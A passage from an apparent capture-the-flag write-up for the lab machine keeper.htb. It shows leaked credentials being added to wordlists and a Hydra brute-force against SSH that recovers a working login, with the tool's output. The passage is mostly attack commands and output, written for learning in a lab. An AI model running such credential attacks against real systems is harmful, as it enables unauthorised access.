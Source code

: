 ![User edit page of the request tracker software showing interesting details about the Lise user](Assets/user_edit_page.jpg)

Since we have a password and a user now let's run hydra on ssh to see if we can get a login (Doesn't make much sense to fuzz the app any more, we're root).

```BASH
$ echo "lnorgaard" >> loot/leakedUsers
$ echo "root" >> loot/leakedUsers
$ echo "password" >> loot/leakedPass
$ echo 'Welcome2023!' >> loot/leakedPass
$ cat loot/leakedUsers /opt/SecLists/Usernames/top-usernames-shortlist.txt > /tmp/users
$ cat loot/leakedPass /opt/SecLists/Passwords/darkweb2017-top10000.txt > /tmp/passlist
$ hydra -L /tmp/users -P /tmp/passlist $TARGET ssh
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra)
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 180000 login tries (l:18/p:10000), ~11250 tries per task
[DATA] attacking ssh://keeper.htb:22/
[22][ssh] host: keeper.htb   login: lnorgaard   password: Welcome2023!
 ... snip ...
```

And we got ssh access. Let's login and run linpeas in the background as we start manually looking around.
